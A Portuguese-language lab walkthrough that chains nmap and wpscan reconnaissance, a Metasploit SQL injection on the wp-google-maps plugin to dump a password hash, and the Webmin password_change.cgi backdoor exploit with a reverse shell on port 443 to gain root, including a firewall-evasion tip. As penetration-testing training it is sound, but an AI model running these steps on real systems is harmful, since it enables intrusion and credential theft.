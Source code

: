 ### First Pass Recon

```
1º sudo nmap -sS -T4 'Seu IP'
``` 
"Utilizar o IP do Kali para descobrir os outros dispostivos na rede, e assim saber os serviços que estão rodando."

```
2º wpscan  —url ‘IP ALVO’
```
"Utilizando o "wpscan", para assim levantar os plugins que estão rodando dentro da aplicação em questão. 
 Analisando então os plugins, pode-se localizar o plugin 'wp-google-maps'."

```
3º sudo nmap -sV -p- -v -Pn 'IP ALVO' 
> -sV : Obtém a versão dos serviços rodando no alvo.
> -p- : Realiza um scanner em todas as 65535 portas.
> -v : Modo verboso.
> -Pn : Ignora o ICMP. 
```
"Localize na saída analise os serviços utilizados pela aplicação e de atenção ao 'Webmin' 
 Dentro do terminal no Kali Linux utilize 'searchsploit webmin' Lista os exploits"

```
4º sudo msfconsole
```
"Fornece informações sobre vulnerabilidades de segurança e auxilia em testes de penetração e desenvolvimento de assinaturas IDS."

```
5º msf5 > search wp-google-maps
```
"Busca na ferramenta exploits para os plugins levantados no passo 2, localize o modo auxiliar para SQLinjection no wp-google-maps."

```
6º msf5 > use 0   
```
"Efetua no Metasploit o uso do auxiliar para SQLinjection."

```
7º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
```
"Mostra as opções e quais dados devem ser setados no exploit."

```
8º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO' 
rhosts ⇒ ip do alvo
```
"Adiciona o IP do alvo ao exploit para SQLinjection" 

```
9º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
```
"Efetua o SQLinjection, trazendo no console que existe uma credencial salva no server, 
 capturando assim o ID e HASH da senha do usuário. 

```
10º msf5 auxiliary (admin/http/wp-google-maps-sqli) > search webmin 
```
"O MSF lista os exploits, no caso veja que foi encontrado o 'webmin password_change.cgi Backdoor', 
 exploit que será explorado nesse lab."

```
11º msf5 auxiliary (admin/http/wp-google-maps-sqli) > use 2
```
"Comando para iniciar o exploit que será utilizado."

```
12º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
```
"Mostra todas as opções que se pode setar no exploit, mostrando também que já veio setado um 'payload' no caso em questão, 
 caso não viesse, o usuário deveria fazer o 'payload'."

```
13º msf5 auxiliary (admin/http/wp-google-maps-sqli) > info 
```
"Analisa as informações do exploit, mostrando a versão."

```
14º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set forceexploit true 
```
"Caso a versão seja diferente o comando 'force' faz com que o msf execute o exploit independente da versão." 

```
15º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
```
"Analise as informações a serem setadas, como no caso o 'rhosts, lhost, lport e ssl'."

```
16º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO'
> rhost: IP DO ALVO 
(Realiza conexão remota)
```

```
17º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lhost 'IP KALI' 
> lhost: IP KALI 
(Recebe a conexão reversa)
```

```
18º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lport 443
> lport: 443 
(Número da porta onde irá simular a conexão com a web, evitar setar número alto para burlar o firewall.)
```

```
19º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set ssl true 
> ssl: TRUE 
(Confirma para que assim tenha a conexão)
```

```
20º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
```

Após o msf5 abrir a sessão com o alvo, digite 'whoami' caso seja 'root' digite no terminal ```-> shell <-``` acesso realizado. 
